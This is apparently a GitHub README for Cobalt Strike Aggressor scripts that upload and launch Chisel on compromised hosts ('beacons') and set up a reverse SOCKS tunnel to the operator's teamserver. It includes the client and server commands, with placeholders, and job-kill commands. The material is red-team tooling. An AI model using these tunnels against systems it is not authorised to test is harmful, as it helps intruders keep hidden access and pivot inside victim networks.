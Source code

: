 # Cobalt_Strike_scripts
Cobalt Strike Aggressor scripts

## Chisel script
What does the script do (*chisel* module)?
1. The script first checks that the chisel file exists on the target host.
2. If the file doesn't exist, then it's uploaded to the host and then launched. If the file exists, then it's launched.

The *chisel.cna* needs these files and these files must be located on the teamserver:
- logs/
  - chisel_client_job_pids.log
  - chisel_tms_job_pids.log
- modules/
  - chisel_linux
  - chisel_win.exe
  - chisel64
  - chisel64.exe
  - chisel86
  - chisel86.exe
- tools/
  - tmskill64.bat
  - tmskill64.sh
  - tmskill86.bat
  - tmskill86.sh

You must have write permissions to the log files.

You can download last versions of chisel from https://github.com/jpillora/chisel

Change *$chisel_user*, *$chisel_pass* in the *chisel.cna*.

### Modules
🔺 **chisel**

The 'client' functionality is used on a beacon. Example:
```
chisel client <serv_IP>:<serv_port> R:<socks_IP>:<socks_port>:socks
```

🔺 **chisel-jobs**

List active chisel jobs on the teamserver and beacon. Just run:
```
chisel-jobs
```

🔺 **chisel-kill**

Kill chisel jobs on a beacon. Use 'ALL' to kill all jobs or PID to kill only one job with typed PID. Example:
```
chisel-kill ALL
chisel-kill 3453
```

🔺 **chisel-tms**

Run Chisel on your teamserver. Example:
```
chisel-tms server --auth user:pass -p <serv_port> --socks5 --reverse
```

🔺 **chisel-tms-kill**

Kill all chisel jobs on the teamserver. Just run:
```
chisel-tms-kill
```

### Screenshots
![Chisel](/screens/ch_client.png)
![Chisel tms](/screens/ch_tms.png)
